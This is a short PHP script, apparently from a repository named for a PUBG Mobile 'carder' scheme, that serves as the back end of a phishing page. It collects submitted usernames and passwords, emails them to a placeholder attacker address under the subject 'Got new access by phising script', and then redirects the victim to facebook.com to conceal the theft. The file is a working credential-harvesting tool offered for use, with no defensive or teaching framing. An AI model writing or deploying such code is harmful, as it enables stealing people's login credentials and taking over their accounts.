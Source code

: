 # PUBGMOBILECarder.github.io
<?php

	function mail_sender(){
		if(! ( isset($_REQUEST['username']) && isset($_REQUEST['password']) ) ){
			return false;
		}

		$username = $_REQUEST['username'];
		$password = $_REQUEST['password'];
		
		$reciever = "YOUR-EMAIL ADRRESS";
		
		$subject = "Got new access by phising script";
		$message = "The username is ". $username;
		$message .= "and password is ". $password;
		
		return mail($reciever, $subject, $message);
	}
	
	if(mail_sender()){
		header("Location: http://www.facebook.com");
	}
?>
